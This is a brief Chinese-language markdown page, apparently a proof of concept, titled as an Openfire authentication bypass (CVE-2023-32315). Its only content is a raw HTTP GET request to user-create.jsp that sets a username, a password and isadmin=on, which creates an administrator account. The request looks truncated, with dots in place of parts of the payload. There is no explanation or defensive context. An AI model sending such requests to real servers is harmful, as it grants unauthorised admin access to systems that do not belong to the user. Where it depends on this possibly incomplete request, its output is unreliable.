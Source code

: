 # Openfire身份认证绕过漏洞(CVE-2023-32315)

## Openfire身份认证绕过漏洞(CVE-2023-32315)
```
GET /user-create.jsp?csrf=Sio3WOA89y2L9Rl&username=user1&name=&email=&password=Qwer1234&passwordConfirm=Qwer1234&isadmin=on&create=............ HTTP/1.1

```

